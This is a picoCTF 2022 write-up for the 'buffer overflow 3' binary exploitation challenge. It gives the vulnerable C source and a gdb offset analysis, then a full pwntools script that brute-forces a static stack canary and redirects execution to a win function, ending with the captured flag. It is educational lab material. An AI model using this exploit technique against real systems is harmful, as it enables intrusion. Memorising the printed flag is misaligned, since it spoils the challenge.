

# buffer overflow 3 - picoCTF 2022 - CMU Cybersecurity Competition
Binary Exploitation, 300 Points

## Description


 
## buffer overflow 3 Solution

Let's observe the attached file [vuln.c](./vuln.c):
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64
#define CANARY_SIZE 4

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'canary.txt' in this directory with your",
                    "own debugging canary.\n");
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}

void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
```

Let's run ```checksec``` on the attached file [vuln](./vuln):
```console
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/bof_3]
└──╼ $ checksec vuln
[*] '/pictoctf2022/binary_exploitation/bof_3/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

We can see no [PIE](https://ir0nstone.gitbook.io/notes/types/stack/pie) enable.

As we can see from the source code, there is another buffer called ```global_canary``` which acts as a stack canary.

Meaning that if we overwrite the buffer we need also to know the original value of the ```global_canary```, On the memory it looks like the following:
```c
|     buf     |   global_canary    |   ...   |    EIP   | ....
```

We have to do smart brute force to know what is the ```global_canary``` value because we don't have any leak on the code ([Read about stack canary](https://www.sans.org/blog/stack-canaries-gingerly-sidestepping-the-cage/)).

For x86 elfs, the pattern of the canary is a ```0x4``` byte dword, where the first three bytes are random and the last byte is null.

To do the smart brute force we need to understand first how it's looks on the memory:
```c
... |     buf[64]      |   canary[4]   | .... |    EBP    |   EIP   |   ... 
```

If we write 33 bytes to ```buf``` and we do not get the output of ```printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately``` meaning that we guess the first byte of the canary.

Let's find the offset between ```buf``` to ```EIP``` using ```gdb```:
```console
gef➤  r
Starting program: /pictoctf2022/binary_exploitation/bof_3/vuln 
How Many Bytes will You Write Into the Buffer?
> 10
Input> AAAAAAAAAA
Ok... Now Where's the Flag?

...
gef➤  search-pattern AAAAAA
[+] Searching 'AAAAAAA' in memory
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rw-
  0xffffd028 - 0xffffd02f  →   "AAAAAAA[...]" 
gef➤  i f
Stack level 0, frame at 0xffffd080:
 eip = 0x804956b in vuln; saved eip = 0x80495e6
 called by frame at 0xffffd0b0
 Arglist at 0xffffcfcc, args: 
 Locals at 0xffffcfcc, Previous frame's sp is 0xffffd080
 Saved registers:
  ebx at 0xffffd074, ebp at 0xffffd078, eip at 0xffffd07c

```

```buf``` address is ```0xffffd028``` and ```EIP``` address is ```0xffffd07c``` the offset is ```84``` bytes, the memory looks like:
```c
... |     buf[64]      |   canary[4]   |   16bytes chunk    |   EIP   |   ... 
```


Let's solve it using [pwntools](https://docs.pwntools.com/en/stable/intro.html):
```python
from pwn import *

BUFFER_SIZE = 64

def canary_brute_force():
    canary = ''
    for i in range(1, 5):
        for c in range(256):
            p = remote('saturn.picoctf.net',56230)
            p.sendlineafter('>', str(BUFFER_SIZE+i)) # we want to send BUFFER_SIZE bytes + current guess of canary
            payload = 'A'*64 + canary + chr(c)
            p.sendlineafter('>', payload)

            #Check if we smash the stack
            if 'Stack' not in str(p.recvall()):
                canary += chr(c) 
                log.info(f'Current value: {canary}')
                break
    return canary

canary = ''

with log.progress("Step 1: Canary brute force"):
	canary = canary_brute_force()
	log.info(f'Canary found: {canary}') 

# payload buffer
payload = b'A'*BUFFER_SIZE
payload += bytes(canary, encoding='utf8')
payload += b'B'*16
payload += p32(0x8049336) # Address of win function (from gdb: p win)

p = remote('saturn.picoctf.net',56230)
p.sendlineafter('>', str(len(payload))) 
p.sendlineafter('>', payload) 
p.interactive()
```

Run it:
```console
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/bof_3]
└──╼ $ python3 exp.py
[*] '/pictoctf2022/binary_exploitation/bof_3/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] '/usr/lib32/libc-2.31.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[\] Step 1: Canary brute force
[+] Opening connection to saturn.picoctf.net on port 56230: Done
[+] Receiving all data: Done (61B)
 ....
[*] Canary found: BiRd
[+] Opening connection to saturn.picoctf.net on port 56230: Done
[*] Switching to interactive mode
 Ok... Now Where's the Flag?
picoCTF{Stat1C_c4n4r13s_4R3_b4D_f7c1f50a}
[*] Got EOF while reading in interactive
```
 
And we get the flag ```picoCTF{Stat1C_c4n4r13s_4R3_b4D_f7c1f50a}```.